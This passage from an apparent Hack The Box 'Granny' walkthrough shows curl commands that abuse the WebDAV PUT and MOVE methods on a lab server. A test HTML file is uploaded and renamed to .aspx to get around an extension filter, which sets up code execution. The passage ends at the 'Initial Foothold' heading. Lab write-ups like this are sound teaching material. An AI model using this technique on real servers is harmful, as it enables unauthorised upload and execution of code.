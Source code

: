 ![](../images/max/1021/1*JgL3sYZp_tWhx7JDIf-2xA.png)

Both ASP and ASPX are not allowed. However, TXT and HTML files are. Remember that the PUT HTTP method was not the only method that was allowed. We also can use the MOVE method. The MOVE method not only can be used to change file locations on the web server, but it can also be used to rename files. Let’s try to upload an HTML file on the web server and then rename it to change the extension to an ASPX file.

```text
root@kali:~/Desktop/htb/granny# curl -X PUT http://10.10.10.15/test.html -d @test.html
root@kali:~/Desktop/htb/granny# curl http://10.10.10.15/test.html
<h1>Hello</h1>
```

We confirm that the HTML file was correctly uploaded on the web server. Next, let’s change the extension of the HTML file to ASPX.

```text
root@kali:~/Desktop/htb/granny# curl -X MOVE --header 'Destination:http://10.10.10.15/test.aspx' 'http://10.10.10.15/test.html'root@kali:~/Desktop/htb/granny# curl http://10.10.10.15/test.aspx
<h1>Hello</h1>
```

Perfect! Now we have confirmed that we can successfully upload and execute ASPX code on the web server.

## Initial Foothold <a id="03d0"></a>
